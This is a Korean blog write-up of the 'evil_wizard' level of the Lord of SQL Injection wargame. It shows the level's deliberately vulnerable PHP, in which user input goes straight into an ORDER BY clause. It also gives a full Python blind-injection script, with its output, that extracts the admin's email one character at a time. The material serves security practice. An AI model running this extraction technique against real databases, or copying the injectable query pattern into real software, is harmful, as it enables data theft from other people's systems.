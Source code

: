 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - evil_wizard 문제풀이"
excerpt_separator: <!--more-->
comments : true
tags:
  - Write-up
  - Lord of SQL Injection
---
```


`evil_wizard` 문제인데, 이 전에 `hell_fire` 문제랑 똑같이 생겼다.  

주석을 보면 `same with hell_fire? really?`라고 적혀있는데, 뭐가 다른건지 모르겠다.  

<!--more-->

코드는 다음과 같다.  

```php
------------------------------------------------------------------------------------------
query : select id,email,score from prob_evil_wizard where 1 order by
------------------------------------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|proc|union|sleep|benchmark/i', $_GET[order])) exit("No Hack ~_~");
  $query = "select id,email,score from prob_evil_wizard where 1 order by {$_GET[order]}"; // same with hell_fire? really?
  echo "<table border=1><tr><th>id</th><th>email</th><th>score</th>";
  $rows = mysql_query($query);
  while(($result = mysql_fetch_array($rows))){
    if($result['id'] == "admin") $result['email'] = "**************";
    echo "<tr><td>{$result[id]}</td><td>{$result[email]}</td><td>{$result[score]}</td></tr>";
  }
  echo "</table><hr>query : <strong>{$query}</strong><hr>";

  $_GET[email] = addslashes($_GET[email]);
  $query = "select email from prob_evil_wizard where id='admin' and email='{$_GET[email]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['email']) && ($result['email'] === $_GET['email'])) solve("evil_wizard");
  highlight_file(__FILE__);
?>
```

코드를 보면 이 전 문제인 `hell_fire`와 똑같다.  

그런데 주석에 `same with hell_fire? really?`가 있는 것을 보니 뭔가 다른 부분이 있는 것 같았다.  

그래서 `?order=id`를 입력 해 무슨 값이 들어있나 확인 해 보았다.  

|id|   |email|   |score|
|---|---|---|---|---|
|admin|   |**************|   |50|
|rubiya|   |rubiya805@gmail.com|   |100|

지난 문제에서는 `admin`의 `score`가 `200`이었어서, `order by` 뒤에 `id`를 넣을때와 `score`를 넣을 때가 결과가 달랐다.  

그런데 이번에는 무슨 값을 넣어도 같은 결과가 나온다.  

그래서 이 전 문제에서 사용했던 방법을 그대로 테스트 해 보았는데 너무 잘된다. ㅋㅋㅋ  

뭔가... 이 전 문제는 내가 처음에 생각했던 방법대로 풀 수 있었던 문제인 것 같은데, 뭔가 문제가 망가진 것 같기도 하다.  

아니면 내가 의도와 다르게 풀었거나...  

어쨌든 그래서 그냥 이 전 문제 코드 그대로 가져다 풀었다.  

```python
import urllib2
import urllib
import requests

flag = ""
length = 0

url = "http://los.rubiya.kr/evil_wizard_32e3d35835aa4e039348712fb75169ad.php?order="
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find length of the password"

for i in range(0, 40):
	try:
		query = url + "if((id='admin' and length(email)=" + str(i) + "), score, 9999)"
		r = requests.post(query, cookies=session)
	except:
		print "[-] Error occur"
		continue
	if '<td>50</td></tr><tr><td>rubiya</td>' in r.text:
		length = i
		break

print "[+] Found length : ", length

print "[+] Find password"

for j in range(1, length + 1):
	for i in range(33, 128):
		try:
			query = url + "if((id='admin' and ord(substr(email, " + str(j) + ", 1))=" + str(i) + "), score, 9999)"
			r = requests.post(query, cookies=session)
		except:
			print "[-] Error occur"
			continue

		if '<td>50</td></tr><tr><td>rubiya</td>' in r.text:
			flag += chr(i)
			print "[+] Found " + str(j), ":", flag
			break

print "[+] Found password : ", flag
print "[+] End"
```

패스워드 길이는 이 전 문제랑 살짝 달랐다.  

```
$ python ex.py 
[+] Start
[+] Find length of the password
[+] Found length :  30
[+] Find password
[+] Found 1 : a
[+] Found 2 : aa
[+] Found 3 : aas
[+] Found 4 : aasu
[+] Found 5 : aasup
[+] Found 6 : aasup3
[+] Found 7 : aasup3r
[+] Found 8 : aasup3r_
[+] Found 9 : aasup3r_s
[+] Found 10 : aasup3r_se
[+] Found 11 : aasup3r_sec
[+] Found 12 : aasup3r_secu
[+] Found 13 : aasup3r_secur
[+] Found 14 : aasup3r_secure
[+] Found 15 : aasup3r_secure_
[+] Found 16 : aasup3r_secure_e
[+] Found 17 : aasup3r_secure_em
[+] Found 18 : aasup3r_secure_ema
[+] Found 19 : aasup3r_secure_emai
[+] Found 20 : aasup3r_secure_email
[+] Found 21 : aasup3r_secure_email@
[+] Found 22 : aasup3r_secure_email@e
[+] Found 23 : aasup3r_secure_email@em
[+] Found 24 : aasup3r_secure_email@ema
[+] Found 25 : aasup3r_secure_email@emai
[+] Found 26 : aasup3r_secure_email@emai1
[+] Found 27 : aasup3r_secure_email@emai1.
[+] Found 28 : aasup3r_secure_email@emai1.c
[+] Found 29 : aasup3r_secure_email@emai1.co
[+] Found 30 : aasup3r_secure_email@emai1.com
[+] Found password :  aasup3r_secure_email@emai1.com
[+] End
```

결과로 나온 이메일 값을 아래와 같이 넘겨주었다.  

```
?email=aasup3r_secure_email@emai1.com
```

힣 코드 한개로 2문제 풀었다! 개꿀!  

```php
------------------------------------------------------------------------------------------
query : select id,email,score from prob_evil_wizard where 1 order by
------------------------------------------------------------------------------------------

EVIL_WIZARD Clear!
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|proc|union|sleep|benchmark/i', $_GET[order])) exit("No Hack ~_~");
  $query = "select id,email,score from prob_evil_wizard where 1 order by {$_GET[order]}"; // same with hell_fire? really?
  echo "<table border=1><tr><th>id</th><th>email</th><th>score</th>";
  $rows = mysql_query($query);
  while(($result = mysql_fetch_array($rows))){
    if($result['id'] == "admin") $result['email'] = "**************";
    echo "<tr><td>{$result[id]}</td><td>{$result[email]}</td><td>{$result[score]}</td></tr>";
  }
  echo "</table><hr>query : <strong>{$query}</strong><hr>";

  $_GET[email] = addslashes($_GET[email]);
  $query = "select email from prob_evil_wizard where id='admin' and email='{$_GET[email]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['email']) && ($result['email'] === $_GET['email'])) solve("evil_wizard");
  highlight_file(__FILE__);
?>
```

`EVIL_WIZARD Clear!!`